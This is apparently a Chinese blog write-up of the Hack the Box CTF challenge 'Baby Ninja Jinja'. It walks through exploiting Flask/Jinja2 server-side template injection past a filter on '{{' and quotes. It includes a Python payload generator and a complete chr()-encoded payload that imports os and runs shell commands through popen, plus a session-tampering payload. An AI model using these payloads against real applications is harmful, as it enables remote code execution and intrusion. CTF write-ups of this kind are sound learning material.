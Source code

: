 ```yaml
---
title: "Hack the Box——Baby Ninja Jinja"
date: 2020-09-12T19:10:07+08:00
showDate: true
draft: false
tags: ["security","hack the box", "ctf"]
categories: ["security"]
---
```


## 0x00 

到了快乐周末，又有足够的时间来玩htb了。开始在htb上开了做了两个php的题，都没做出来，哎，不会php太难了。开第三个实例，终于不是和php相关的了。

## 0x01 拿到源码

开始访问页面，是一段奇怪的介绍，然后一个输入框

![1.png](1.png)

先随便输入个什么试试，发现输入`"`的时候，出现了flask的报错debug页面，看起来是存在注入的。

![2.png](2.png)

在仔细审计下返回的html，又发现了奇怪的东西，感觉htb出题目的人都喜欢把因此的接口放在注释里。

![3.png](3.png)

访问下`/debug`，嘿，这太眼熟了，flask。这个套路和之前rick那个好像是一样的，于是我看了下两道题的作者，果然是同一个人。

![4.png](4.png)

## 0x02 审计

拿到源码就开始审计，一共有两个路由，`/`和`/debug`，`/`接受一个`name`参数。

开始的注入点就发生在拼接插入sql的时候。

```
query_db('INSERT INTO ninjas (name) VALUES ("%s")' % name)
```

然后再仔细阅读代码发现，好像这个注入并不怎么关键，这里有模板有`{{`的过滤，那应该是ssti了。

代码的逻辑就是`传入name`=>`入库`=>`从数据库中读取name还有当前总数据量`=>`替换到模板中`=>`通过render_template_string渲染`。

那关键就在于控制输入，使得渲染的时候发生ssti。但是还要注意的是，这里在从数据库读数据出来的时候，有一个替换，也就是过滤操作。那jinja中的`{{}}`就不能使用了。

```
        db.text_factory = (lambda s: s.replace('{{', '').
            replace("'", '&#x27;').
            replace('"', '&quot;').
            replace('<', '&lt;').
            replace('>', '&gt;')
        )
```

## 0x03 寻找方法

看了些ssti的总结，对于过滤表达式`{{ }}`的，可以使用控制结构`{% %}`来代替。

在控制结构`{% %}`中，可以使用赋值操作。

![5.png](5.png)

通过这个就可以使用基类查找子类的形式拿到想要的方法来执行。

## 0x04 解决问题

鉴于上次题目没有用flask的特性而是走了盲注这种更慢的方法，先试试flask的session。题目的源码里有一个判断是不是leader的，如果是的话就返回，那直接要在渲染的时候通过ssti把这个session的值加上就好了。

```
            if session.get('leader'):
                return report
```

但是在构造payload的时候发现，如果要调用__builtins__的__import__，好像绕不开用单双引号。这里我想到了用内置的chr函数。

通过chr函数然后用加号拼接字符。比如要拿到__builtins__的话，就可以

```
{% set builtin=().__class__.__base__.__subclasses__()[59].__init__.__globals__[chr(95)%2bchr(95)%2bchr(98)%2bchr(117)%2bchr(105)%2bchr(108)%2bchr(116)%2bchr(105)%2bchr(110)%2bchr(115)%2bchr(95)%2bchr(95)] %}
```

这样就可以绕过引号了。但是发现这样服务端会报错`UndefinedError: 'chr' is undefined`，显然chr函数不能直接用，他还在builtins里面，今年一番搜索，我找到了获取chr的方法。

```
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}
```

这样一来就可以正常使用了。

接下来就是修改session，既然要修改session，那就要导入flask。

```
def get_chr(s):
    res = []
    for i in s:
        res.append('chr({})'.format(ord(i)))
    return "%2b".join(res)
f'{\{% set flask=().__class__.__base__.__subclasses__()[59].__init__.__globals__[{get_chr("__builtins__")}][{get_chr("__import__")}]({get_chr("flask")}) %}}'  # 这里为了方便写payload写了个函数（斜杠是因为没斜杠我的博客会编译失败？）
```

拿到flask对象之后，就可以通过session的setdefault方法来修改他

```
f'{\{% set a=flask.session.setdefault({get_chr("leader")}, getchr("tttt")) %}}'
```

这样就成功通过修改session让服务端返回了resport的内容，但是我发现好像并没有什么作用


![6.png](6.png)


但是起码证明上次的修改session我学到了~


要怎么才能让服务端返回内容到客户端，不想再写盲注代码了。我的思路是让flask在模板渲染的时候就结束并返回，这样应该可以自定义内容，但是flask返回到客户端的数据都是靠return的，怎么才能不用return呢。


我想到flask有一个abort方法，调用flask.abort之后他就直接结束请求并返回数据到客户端了。

另外我看到源码里面有个例子`abort(Response('Hello World'))`，通过使用flask.Response对象就可以传递内容，这不就是我想要的嘛。构造结合前面拿到的flask对象，拼接上下面的代码。

```
f'{\{% set a=flask.abort(flask.Response({get_char("test")})) %}}'
```

![7.png](7.png)

成功控制返回结果了。

那在配上popen就可以执行命令了。set一个os对象，执行ls命令

```
f'{\{% set os=().__class__.__base__.__subclasses__()[59].__init__.__globals__[{get_chr("__builtins__")}][{get_chr("__import__")}]({get_chr("os")}) %}}'
f'{\{% set a=flask.abort(flask.Response(os.popen({get_chr("ls")}).read())) %}}'
```

成功执行了ls命令并返回结果到浏览器。

![8.png](8.png)


最后的生成payload的代码为

```
def get_chr(s):
    res = []
    for i in s:
        res.append('chr({})'.format(ord(i)))
    return "%2b".join(res)


def get_payload():
    # payload = f'{\{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}}{\{% if ().__class__.__base__.__subclasses__()[59].__init__.__globals__[{get_chr("__builtins__")}][{get_chr("__import__")}]({get_chr("os")}).open({get_chr("templates/index.html")}, {get_chr("a+")}).write({get_chr("tttttt")}) %}}11{\{% endif %}}'
    define_chr = f"{\{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}}"
    define_flask = f'{\{% set flask=().__class__.__base__.__subclasses__()[59].__init__.__globals__[{get_chr("__builtins__")}][{get_chr("__import__")}]({get_chr("flask")}) %}}'
    define_os = f'{\{% set os=().__class__.__base__.__subclasses__()[59].__init__.__globals__[{get_chr("__builtins__")}][{get_chr("__import__")}]({get_chr("os")}) %}}'
    payload = f'{\{% set a=flask.abort(flask.Response(os.popen({get_chr("cat flag_P54ed")}).read())) %}}'
    payload = define_chr + define_flask + define_os + payload
    return payload
```

生成payload的为
```
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}{% set flask=().__class__.__base__.__subclasses__()[59].__init__.__globals__[chr(95)%2bchr(95)%2bchr(98)%2bchr(117)%2bchr(105)%2bchr(108)%2bchr(116)%2bchr(105)%2bchr(110)%2bchr(115)%2bchr(95)%2bchr(95)][chr(95)%2bchr(95)%2bchr(105)%2bchr(109)%2bchr(112)%2bchr(111)%2bchr(114)%2bchr(116)%2bchr(95)%2bchr(95)](chr(102)%2bchr(108)%2bchr(97)%2bchr(115)%2bchr(107)) %}{% set os=().__class__.__base__.__subclasses__()[59].__init__.__globals__[chr(95)%2bchr(95)%2bchr(98)%2bchr(117)%2bchr(105)%2bchr(108)%2bchr(116)%2bchr(105)%2bchr(110)%2bchr(115)%2bchr(95)%2bchr(95)][chr(95)%2bchr(95)%2bchr(105)%2bchr(109)%2bchr(112)%2bchr(111)%2bchr(114)%2bchr(116)%2bchr(95)%2bchr(95)](chr(111)%2bchr(115)) %}{% set a=flask.abort(flask.Response(os.popen(chr(99)%2bchr(97)%2bchr(116)%2bchr(32)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)%2bchr(95)%2bchr(80)%2bchr(53)%2bchr(52)%2bchr(101)%2bchr(100)).read())) %}
```

成功拿到flag，通关~

![9.png](9.png)



## 0x05 参考资料



[Jinja2 template injection filter bypasses](https://0day.work/jinja2-template-injection-filter-bypasses/)

[浅谈flask ssti 绕过原理](https://xz.aliyun.com/t/8029#toc-8)

[Template Designer Documentation¶](https://jinja.palletsprojects.com/en/2.11.x/templates/#list-of-control-structures)
